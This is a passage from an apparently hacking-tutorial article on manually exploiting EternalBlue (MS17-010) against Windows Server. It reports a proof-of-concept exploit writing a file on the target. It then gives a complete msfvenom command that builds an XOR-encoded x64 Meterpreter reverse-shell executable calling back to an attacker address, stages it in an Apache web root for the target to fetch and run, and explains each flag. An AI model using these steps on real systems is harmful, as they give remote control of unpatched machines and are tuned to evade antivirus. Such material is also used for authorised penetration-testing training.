 We can see some data spit out on the screen, and at the bottom, it says it created a text file on the target. If we take a peek at the target, we can see this was successful.![How to Manually Exploit EternalBlue on Windows Server Using MS17-010 Python Exploit](https://img.wonderhowto.com/img/52/40/63689444529812/0/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit.w1456.jpg)

But we want to do more than just create a text file on the target. This is just a proof of concept, after all, so we will need to do a few more things to get this exploit fully functional.

## Step 4: Serve the Payload (this is optional unless you're using some other command to grab a file you're hosting)

We're going to need a [payload](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-create-undetectable-payload-part-1-bypassing-antivirus-software-0185055/) and a way for the exploit to get it and execute. For that, we can use [MSFvenom](https://null-byte.wonderhowto.com/how-to/hack-like-pro-metasploit-for-aspiring-hacker-part-5-msfvenom-0159520/) to generate some shellcode, and we can serve it from our machine using [Apache](https://null-byte.wonderhowto.com/how-to/linux-basics-for-aspiring-hacker-configuring-apache-0164096/).

In a new terminal, use the following command to generate the payload and save it to a file named **sc.exe** in the default web root for the Apache server.

```
msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp lhost=10.10.0.1 lport=4321 -e x64/xor -i 5 -f exe -o /var/www/html/sc.exe
```

```
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x64/xor
x64/xor succeeded with size 551 (iteration=0)
x64/xor succeeded with size 591 (iteration=1)
x64/xor succeeded with size 631 (iteration=2)
x64/xor succeeded with size 671 (iteration=3)
x64/xor succeeded with size 711 (iteration=4)
x64/xor chosen with final size 711
Payload size: 711 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/sc.exe
```

This is a long command, so let's break it down:

* The **-a** flag specifies the architecture as 64-bit.
* The **--platform** option sets the platform as Windows.
* The **-p** flag specifies the payload.
* **lhost** is our local machine to connect back to.
* **lport** is the local port to connect to.
* The **-e** flag specifies the encoder to use.
* The **-i** flag sets the number of iterations the encoder uses.
* The **-f** flag sets the format.
* The **-o** flag specifies the output file.

Now we can start the Apache server so the exploit can connect to our machine from the target to reach the payload. Next, we will tweak the code to fit our needs.
